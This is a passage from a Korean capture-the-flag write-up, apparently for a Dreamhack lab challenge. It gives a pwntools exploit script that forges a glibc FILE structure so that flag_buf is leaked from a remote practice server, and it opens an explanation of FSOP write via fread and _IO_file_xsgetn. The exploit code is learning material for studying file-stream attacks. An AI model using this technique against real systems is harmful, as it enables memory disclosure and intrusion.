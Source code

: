 flag_buf의 값을 읽으면 된다.

익스코드

```python
from pwn import *

libc = ELF("./libc.so.6")
r = remote("host3.dreamhack.games", 9448)
p = ELF("./iofile_aar")

flags = 0xfbad0000 + 0x800
fileno = 0x1
write_base = p.symbols['flag_buf']
write_ptr  = write_base + 1024
read_end = write_base

ex  = p64(flags)   #flag
ex += p64(0x0)  #read_ptr
ex += p64(read_end)  #read_end
ex += p64(0x0)  #read_base

ex += p64(write_base)  #write_base
ex += p64(write_ptr)  #write_ptr

ex += p64(0x0)  #write_end

ex += p64(0x0)  #buf_base
ex += p64(0x0)  #buf_end

ex += p64(0x0)  #save_base
ex += p64(0x0)  #backup_base
ex += p64(0x0)  #save_end
ex += p64(0x0)  #marker
ex += p64(0x0)  #chain
ex += p64(0x1)  #fileno

r.sendlineafter("Data: ", ex)
r.interactive()
```

간단한 거니 따로 설명은 안하겠다.
![](https://i.imgur.com/ilTcQOs.png)

### FSOP write

파일 읽기의 함수는 대표적으로 fread, fgets가 있다.

해당 함수는 라이브러리 내부에서 \_IO_file_xsgetn 함수를 호출한다.

![](https://i.imgur.com/zJSrzBU.png)
![](https://i.imgur.com/ogKo3qI.png)
